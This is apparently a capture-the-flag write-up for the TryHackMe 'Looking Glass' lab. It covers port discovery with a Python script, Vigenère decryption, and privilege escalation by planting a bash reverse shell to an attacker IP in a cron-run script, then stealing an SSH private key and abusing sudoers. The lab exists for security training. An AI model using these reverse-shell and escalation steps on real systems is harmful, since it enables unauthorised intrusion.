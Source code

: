 # Looking Glass

**Room link:** https://tryhackme.com/room/lookingglass

1. `nmap -r` reveals SSH services on port 22 and on all ports 9000-13999. This range ports only answer with messages `Lower` or `Higher` before closing the connection.

2. We use binary search to locate the right port.

```python
import sys, subprocess

IP = '10.10.***.*'

pl = 9000 
ph = 13999

def ask_port(p):
    try:
        ps = subprocess.run(('ssh', '-q', '-o', 'StrictHostKeyChecking no', '-p', str(p), IP),
                            capture_output=True, timeout=5)
    except subprocess.TimeoutExpired:
        return None
    return ps.stdout.decode().strip()

while pl < ph:
    p = (pl+ph)//2
    print(f'Asking port {p}...', end=' ', flush=True, file=sys.stderr)
    ans = ask_port(p)
    if ans=='Lower':
        pl = p+1
        print(ans, flush=True, file=sys.stderr)
    elif ans=='Higher':
        ph = p-1
        print(ans, flush=True, file=sys.stderr)
    else:
        pl = ph = p
        print('Found!', flush=True, file=sys.stderr)
print(pl)
```

**NB:** That port is actually randomized.

3. We connect to that port through SSH.

```
$ ssh -p $PORT $TARGET_IP
You've found the real service.
Solve the challenge to get access to the box
Jabberwocky
'Mdes mgplmmz, cvs alv lsmtsn aowil
Fqs ncix hrd rxtbmi bp bwl arul;
Elw bpmtc pgzt alv uvvordcet,
Egf bwl qffl vaewz ovxztiql.
...
Jdbr tivtmi pw sxderpIoeKeudmgdstd
Enter Secret:
```

We get a [famous poem](https://en.wikipedia.org/wiki/Jabberwocky) (+ an additional strophe) that seems alphabetically-encrypted. Knowing the cleartext, we quickly figure out that it is a Vigenère cipher (available in [CyberChef](https://gchq.github.io/CyberChef/)) with the key `thealphabetcipher`.

Once deciphered, the last line reveals the secret:

```
Your secret is **REDACTED**
```

Entering that secret, we get credentials back:

```
jabberwock:**REDACTED**
```

**NB:** That password is actually randomized.

4. Log in as `jabberwock` through SSH (on port 22) and get the (mirrored) **user flag**.

```
jabberwock@looking-glass:~$ ls -l
total 12
-rw-rw-r-- 1 jabberwock jabberwock 935 Jun 30  2020 poem.txt
-rwxrwxr-x 1 jabberwock jabberwock  38 Jul  3  2020 twasBrillig.sh
-rw-r--r-- 1 jabberwock jabberwock  38 Jul  3  2020 user.txt
jabberwock@looking-glass:~$ cat user.txt
**DETCADER**
jabberwock@looking-glass:~$ sudo -l
...
    (root) NOPASSWD: /sbin/reboot
jabberwock@looking-glass:~$ cat /etc/crontab 
...
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

We are allowed to reboot and `tweedledum` conveniently executes our `twasBrillig.sh` script at reboot!

5. Inject a reverse shell (in an infinite loop in order to easily deal with unfortunate lost connections) and reboot.

```
jabberwock@looking-glass:~$ echo 'while true; do bash -i >& /dev/tcp/10.9.***.***/4444 0>&1; done' > twasBrillig.sh
jabberwock@looking-glass:~$ sudo reboot
```

6. Grab the reverse shell as `tweedledum` and upgrade it.

```
$ nc -lnvp 4444
tweedledum@looking-glass:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
$ stty raw -echo; fg
tweedledum@looking-glass:~$ ls -l
ls -l
total 8
-rw-r--r-- 1 root root 520 Jul  3  2020 humptydumpty.txt
-rw-r--r-- 1 root root 296 Jul  3  2020 poem.txt
tweedledum@looking-glass:~$ cat humptydumpty.txt 
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f726420697320************REDACTED************
```

[CrackStation](https://crackstation.net/) knows these hashes (SHA-256 of `maybe`, `one`, `of`, `these`, `is`, `the`, `password`) except the last one, which is the hex-encoding of:

```
the password is **REDACTED**
```

7. Log in as `humptydumpty` (using `su`). Nothing interesting at home this time...

Observe (this might take a bit of time...) that we have execution rights on `alice`'s home, that we can even navigate to `/home/alice/.ssh` and that the anticipated private key surprisingly belongs to us!

```
humptydumpty@looking-glass:~$ ls -lh /home
total 24K
drwx--x--x 6 alice        alice        4.0K Jul  3  2020 alice
drwx------ 3 humptydumpty humptydumpty 4.0K Jan  4 01:28 humptydumpty
drwxrwxrwx 5 jabberwock   jabberwock   4.0K Jul  3  2020 jabberwock
drwx------ 5 tryhackme    tryhackme    4.0K Jul  3  2020 tryhackme
drwx------ 3 tweedledee   tweedledee   4.0K Jul  3  2020 tweedledee
drwx------ 2 tweedledum   tweedledum   4.0K Jul  3  2020 tweedledum
humptydumpty@looking-glass:/home/alice/.ssh$ ls -l /home/alice/.ssh/id_rsa
-rw------- 1 humptydumpty humptydumpty 1679 Jul  3  2020 /home/alice/.ssh/id_rsa
humptydumpty@looking-glass:~$ cat /home/alice/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
...
```

8. Copy it and log in as `alice` through SSH. Without the password, we cannot run `sudo -l`.

Observe however (once again this might take a bit of time...) that anyone can read `/etc/sudoers.d/alice`!

```
alice@looking-glass:~$ ls -l /etc/sudoers.d/
total 16
-r--r----- 1 root root 958 Jan 18  2018 README
-r--r--r-- 1 root root  49 Jul  3  2020 alice
-r--r----- 1 root root  57 Jul  3  2020 jabberwock
-r--r----- 1 root root 120 Jul  3  2020 tweedles
alice@looking-glass:~$ cat /etc/sudoers.d/alice 
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

So we can run `bash` as `root` without password, but only on host `ssalg-gnikool`. Whatever, time to grab the (mirrored) **root flag**.

```
alice@looking-glass:~$ sudo -h ssalg-gnikool bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:~# cat /root/root.txt 
**DETCADER**
```
